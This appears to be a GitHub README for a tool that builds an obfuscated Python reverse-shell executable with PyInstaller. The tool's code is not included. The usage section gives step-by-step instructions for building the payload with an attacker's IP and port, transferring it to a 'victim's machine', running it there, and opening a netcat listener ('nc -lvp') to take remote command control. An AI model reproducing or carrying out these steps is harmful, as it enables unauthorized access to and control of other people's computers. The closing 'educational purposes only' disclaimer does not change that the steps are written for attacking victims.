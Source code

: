 ## Overview ##

This tool creates an executable file that establishes a reverse shell connection to a specified IP address and port. The builder.py script takes three arguments from the command line: the IP address, port number, and the filename for the output executable. The generated executable file is built using PyInstaller.

The generated executable file connects to a hardcoded IP address and port number and awaits commands from the attacker. The RevShell.py file is the code that will be executed on the victim's machine once the attacker has successfully established a connection. The code within RevShell.py is an obfuscated reverse shell that allows the attacker to execute commands on the victim's machine.

## Usage ##

Clone the repository or download the code.
Navigate to the directory that contains the builder.py script.
Run the following command: python builder.py <IP address> <port number> <output filename>
Once the script has finished executing, the generated executable file will be located in the same directory as the builder.py script.
Transfer the generated executable file to the victim's machine.
Run the executable file on the victim's machine.
On the attacker's machine, establish a netcat listener on the specified port: nc -lvp <port number>.
The victim's machine will connect to the attacker's machine, and the attacker will be able to execute commands on the victim's machine through the netcat listener.
Note that the IP address and port number used in the builder.py script and the RevShell.py file are hardcoded and should be modified to match the IP address and port number that the attacker will use.

## Tools & Dependencies ##

# Tools #

Python 3
PyInstaller

#Dependencies#

socket
subprocess
os
base64

## To install PyInstaller, run the following command ##

bash
Copy code
pip install pyinstaller

# The dependencies listed above are standard Python libraries and should be included with any Python distribution #

Before running the builder.py script, make sure that all required tools and dependencies are installed and accessible from the command line.

## Disclaimer ##
This tool is provided for educational purposes only. Misuse of this tool to gain unauthorized access to computer systems is strictly prohibited. The author assumes no liability for any damages caused by the use or misuse of this tool.
